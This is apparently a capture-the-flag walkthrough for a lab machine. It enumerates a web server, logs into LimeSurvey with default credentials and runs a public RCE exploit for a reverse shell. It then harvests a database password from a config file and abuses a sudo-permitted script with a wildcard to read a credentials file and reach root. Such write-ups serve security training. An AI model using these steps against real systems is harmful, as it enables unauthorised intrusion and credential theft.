









We start by finding the "/old" directory on the web server. It would appear that the older version of the site (found in the /old web page) contained a subdomain reference that was removed. We add the subdomain to our hosts file.
feroxbuster --url http://192.168.160.225/ --wordlist /usr/share/wordlists/dirb/big.txt  curl http://marketing.pg/ > test1 curl http://marketing.pg/old/ > test2 diff test1 test2 We then visit the /admin directory of the newly found website and log in with LimeSurvey default credentials (admin:password). We use this POC: https://github.com/Y1LD1R1M-1337/Limesurvey-RCE, which automates the upload of a malicious plugin, and obtain a reverse shell.
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE python3 exploit.py http://customers-survey.marketing.pg/ admin password 80   We then read the database configuration file for LimeSurvey and obtain the database password. We can use this password to switch to user t.miller. cat /var/www/LimeSurvey/application/config/config.php  su t.miller  We then run sudo -l to see what commands we are allowed to run with our user. We find that we can execute a script as user m.sander. If we check the contents of the script, we notice that it is running the diff command with user-supplied input. It does not allow us to enter user m.sander's home directory in the input. We cd into the user's home and run the command with the "*" character allowing us to bypass the restriction and obtain the name of a text file containing credentials. We enter the path of this file in the command arguments and obtain the password for user m.sander. We switch to this user using su and run bash as root. This is allowed because the user is part of the sudo group. sudo -u m.sander /usr/bin/sync.sh 'personal/*'  sudo -u m.sander /usr/bin/sync.sh 'personal/creds-for-2022.txt'  su m.sander sudo /bin/bash 